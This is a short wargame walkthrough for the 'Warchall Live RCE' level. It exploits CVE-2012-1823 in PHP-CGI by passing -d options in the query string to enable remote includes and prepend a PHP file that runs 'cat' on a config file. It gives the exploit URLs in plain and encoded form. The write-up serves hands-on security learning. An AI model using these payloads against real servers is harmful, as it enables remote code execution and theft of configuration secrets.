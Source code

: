 ## Level 20 - Warchall: Live RCE (Remote Code Execution)

This challenge involves exploiting a specific vulnerability, namely CVE-2012-1823 (PHP-CGI Remote Code Execution).

### Vulnerability Overview

The vulnerability allows an attacker to execute arbitrary code through PHP-CGI by manipulating the parameters passed to it. Specifically, appending parameters like `?-s` to the URL simulates PHP-CGI parameters such as `/usr/bin/php53-cgi/php-cgi -f index.php -s`.

### Initial Analysis

-  Explore the PHP-CGI options using `php-cgi --help`.
-  Recognize that the target script (`index.php`) includes another file (`config.php`) using the statement `require '../config.php';`.
-  Identify the absolute paths of the files: `/home/level/20_live_rce/www/index.php` and `/home/level/20_live_rce/config.php`.

### Exploitation Steps
-  Use PHP-CGI parameters to define INI entries:
    
    -   `-dallow_url_include=On`: Allows including remote files.
    -   `-dauto_prepend_file=/tmp/2.php`: Specifies a file to include before processing the requested file.
-  Create `/tmp/2.php` with the following content:
```php
<?php
exec("cat /home/level/20_live_rce/config.php", $out);
print_r($out);
?>
```
- Access the target script with the manipulated parameters:
>http://rce.warchall.net/?-dallow_url_include=On+-dauto_prepend_file=/tmp/2.php+-n
- Access the target script with the manipulated parameters and encoded url:
>http://rce.warchall.net/?-dallow_url_include%3DOn+-dauto_prepend_file%3D%2ftmp%2f2.php+-n
